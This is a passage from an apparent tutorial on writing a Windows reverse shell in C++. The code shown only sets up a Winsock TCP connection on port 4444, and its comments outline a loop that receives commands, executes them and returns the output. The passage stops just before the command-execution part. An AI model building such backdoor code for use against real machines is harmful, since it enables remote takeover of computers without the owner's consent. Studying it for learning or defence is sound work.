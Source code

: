 ```cpp
int main()
{

	WSADATA wsaData;
	WSAStartup(MAKEWORD(2, 2), &wsaData);

	// Connect to the server
	// 1. Listen for command
	// 2. Execute the command
	// 3. Send back the output
	// Goto 1

	struct addrinfo* result = NULL, * ptr = NULL, hints;

	ZeroMemory(&hints, sizeof(hints));
	hints.ai_family = AF_INET;
	// the socket type and protocol will be TCP
	hints.ai_socktype = SOCK_STREAM;
	hints.ai_protocol = IPPROTO_TCP;

	if (getaddrinfo("", "4444", &hints, &result) != 0)
	{
		printf("getaddrinfo failed.\n");
	}

	SOCKET sock = INVALID_SOCKET;

	// create socket object
	sock = socket(result->ai_family, result->ai_socktype, result->ai_protocol);

	if (sock == INVALID_SOCKET)
	{
		printf("socket failed.\n");
		return 1;
	}

	// connect to the server
	connect(sock, result->ai_addr, (int)result->ai_addrlen);

	// cleanup
	closesocket(sock);
	WSACleanup();
	
}
```

This is all boiler plate code for connecting to a server with Winsock, the Winsock documentation can be found [here](https://learn.microsoft.com/en-us/windows/win32/winsock/getting-started-with-winsock).

Now we need to accept the shell command:
